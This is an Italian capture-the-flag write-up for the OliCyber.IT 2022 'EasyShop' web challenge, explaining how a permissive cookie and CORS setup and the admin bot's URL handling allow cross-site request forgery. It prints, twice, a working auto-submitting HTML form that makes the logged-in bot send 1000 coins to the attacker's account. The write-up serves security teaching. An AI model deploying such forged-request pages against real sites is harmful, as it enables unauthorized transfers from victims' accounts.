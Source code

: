 # OliCyber.IT 2022 - Competizione territoriale

## [web-2] EasyShop (12 risoluzioni)

Il sito permette di inviare e ricevere una moneta virtuale (ESC), tuttavia l'unico account ad avere un bilancio positivo è quello dell'amministratore. È inoltre possibile segnalare un link all'amministratore, che lo aprirà subito dopo aver eseguito il login sul sito. L'ultima azione che può compiere un utente è comprare la flag, tuttavia potrà farlo solo dopo aver raggiunto il bilancio di 1000 ESC. L'obiettivo è quello di farsi inviare gli ESC necessari dall'amministratore per poter comprare la flag.

### Soluzione

Possiamo notare che il cookie viene impostato con `samesite=None`, inoltre viene aggiunto alla risposta l'header `Access-Control-Allow-Credentials=true`

```python
wallet = jwt.encode(wallet, KEY, algorithm="HS256")
resp.set_cookie('wallet', wallet, samesite="None",
                secure=True, httponly=True)
resp.headers.add('Access-Control-Allow-Credentials', 'true')
```

Alla route che gestisce l'invio di denaro è stato applicato il decoratore `cross_origin`

```python
@app.route("/send", methods=["POST"])
@cross_origin()
@sessionhandler
def send_money(**kwargs):
```

Dalla sua documentazione:

_This function is the decorator which is used to wrap a Flask route with._
_In the simplest case, simply use the default parameters to allow all_
_origins in what is the most permissive configuration. If this method_
_modifies state or performs authentication which may be brute-forced, you_
_should add some degree of protection, such as Cross Site Forgery_
_Request protection._

Infine, il bot visita l'url fornito dall'utente in questo modo

```js
// Visit user link, this should be safe
await page.goto(
  new URL(
    process.argv[2] /* url applicazione */,
    process.argv[3] /* url fornito dall'utente */
  )
);
```

Dalla documentazione di node:

_new URL(input[, base])_
_input <string> The absolute or relative input URL to parse. If input is relative, then base is required._ **If input is absolute, the base is ignored\***. If input is not a string, it is converted to a string first.\*
_base <string> The base URL to resolve against if the input is not absolute. If base is not a string, it is converted to a string first_

Questo ci permette di inviare il bot su un nostro link, contenente il seguente codice html

```html
<html>
  <form action="http://easyshopURL/send" method="POST">
    <input name="to" value="mioIndirizzoESC" />
    <input name="amount" value="1000" />
  </form>
  <script>
    document.getElementsByTagName("form")[0].submit();
  </script>
</html>
```

Una volta visitato il link, il bot invierà una richiesta POST all'endpoint che invia i pagamenti, dandoci gli ESC necessari per comprare la flag. Faccio notare che, anche in assenza della flag `samesite=None` sul cookie, il problema sarebbe rimasto invariato su Chrome/Chromium, questo perchè di default utilizza una versione più permissiva rispetto a `samesite=Lax`, la quale invia alcuni cookie di sessione anche via POST, (qui)[https://groups.google.com/a/chromium.org/g/blink-dev/c/AknSSyQTGYs/m/YKBxPCScCwAJ?pli=1] il link alla spiegazione.

### Exploit

Inviare al bot un URL che risponda col seguente body.

```html
<html>
  <form action="http://easyshopURL/send" method="POST">
    <input name="to" value="mioIndirizzoESC" />
    <input name="amount" value="1000" />
  </form>
  <script>
    document.getElementsByTagName("form")[0].submit();
  </script>
</html>
```
